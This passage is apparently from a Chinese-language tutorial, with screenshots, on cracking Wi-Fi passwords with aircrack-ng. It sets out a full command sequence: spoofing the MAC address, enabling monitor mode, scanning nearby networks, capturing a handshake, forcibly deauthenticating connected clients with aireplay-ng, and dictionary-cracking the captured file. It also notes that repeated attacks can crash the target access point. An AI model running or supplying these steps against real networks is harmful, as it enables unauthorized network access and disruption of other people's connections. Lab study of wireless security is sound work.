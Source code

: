 （1）查看无线网卡信息

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/wps80.jpg) 

（2）设备无线网卡工作模式为 monitor。注意：若网卡在激活状态，则会显示设备繁忙

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/wps81.jpg) 

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/wps82.jpg) 

 

三、aircrack-ng Wifi 密码破解基本步骤 

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/wps83.jpg) 

 

四、Wifi 密码破解实例 

1、Down 掉网卡：ifconfig wlan0 down

2、伪造 MAC 地址：macchanger –e wlan0 

3、激活网卡：ifconfig wlan0 up 

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/wps84.jpg) 

 

4、设置监听模式 

（1）结束占用无线网卡的进程：airmon-ng check kill 

（2）开启无线网卡监听模式：airmon-ng start wlan0 

（3）查看无线网卡状态：iwconfig

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/wps85.jpg) 

 

5、探测网络，查看周围 Wifi 信息：airodump-ng wlan0mon

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/wps86.jpg) 

6、监听抓包：airodump-ng --ivs --bssid AP_MAC –w hack wlan0mon 

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/wps87.jpg) 

 

7、攻击网络（需新开一个终端）：aireplay-ng -0 1 –a AP_Mac –c Client_Mac wlan0mon 

在监听抓包时，需要要求指定的 AP 有正在进行连接认证的客户端以获取握手包，若无正在认证客户端，将会导致长时间无法抓包成功，这时可以人为的将已经连接的客户强制断开。因为在连接 Wifi 时一般都选择了自动连接，所以一旦断开，客户端将会立即重新连接，此时就可以捕获到握手包。若一次不成功，则可以多攻击几次，但攻击次数过多有可能引起目标 AP 警觉，严重时可导致 AP 死机。

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/wps88.jpg) 

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/wps89.jpg) 

 

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/wps90.jpg) 

 

8、破解密码：aircrack-ng –w wordlist.txt thakai-05.ivs

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/wps91.jpg) 

 

 